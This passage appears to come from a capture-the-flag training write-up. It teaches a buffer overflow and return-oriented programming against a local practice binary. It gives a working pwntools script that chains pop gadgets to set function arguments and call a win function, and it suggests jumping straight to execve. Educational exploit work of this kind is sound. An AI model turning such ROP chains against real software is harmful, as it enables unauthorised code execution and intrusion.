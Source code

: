 Here in the sendline command I am giving "a" * 0x60 to fill the buf variable and extra "a" * 8 to fill the rbp (base pointer) and then the address of win function. wait what is that p64() ? 
> p64() function will make your address into little endian format. To know more about [formats](https://www.geeksforgeeks.org/little-and-big-endian-mystery/)

Run this script and lets see what we get. SHOOT you get something called EOF (End Of File) ?   

![](/images/pwn-train1/pwntrain6.png)

You can attach a gdb with your script and see where your script will crash / how it runs. But we are already given the c code and we know that there was some additional checks done to the `execve`.

![](/images/pwn-train1/pwntrain7.png)

So we have to somehow make the `arg1 = 0xdeadbeef` and `arg2 = 0xcafebabe`. This is where return oriented programming comes into picture. 

## Return Oriented Programming:

This is a type of attack where we use static code or code thats been used to make this binary. we will combine one or many such code snippets to form a chain that'll do something valuable to us.

* Since win is a function with arg1 and arg2 as parameters. We can set RDI = 0xdeadbeef and RSI = 0xcafebabe. Then call win function.

#### Exploit [ret2win]: 

Firstly we can get all the gadgets/code snippets in the binary with [ROPgadget](https://github.com/JonathanSalwan/ROPgadget). Then lets take out the ones that we want.

```bash
python3 ROPgadget.py --binary ../Documents/pwn-train/pwn1/ret2shellcode
```

![](/images/pwn-train1/pwntrain8.png)

We can pop the registers to put the values we want and since every gadget has a return attached to it, we can call win function after those gadgets.

```python
from pwn import *

p = process("ret2shellcode")
pause()
p.sendline(b"a"*0x60 + b"a"*8 + p64(0x000000000040129b) + p64(0xdeadbeef) + p64(0x0000000000401299) + p64(0xcafebabe) + p64(0) + p64(0x00000000004011a5))
p.interactive()
```

![](/images/pwn-train1/pwntrain9.png)

## Exploit [simpler version]: 

I know you went through all the struggle to set the arguments right, but if you can control the return address and jump literally anywhere, then why not just jump directly on the execve function. 
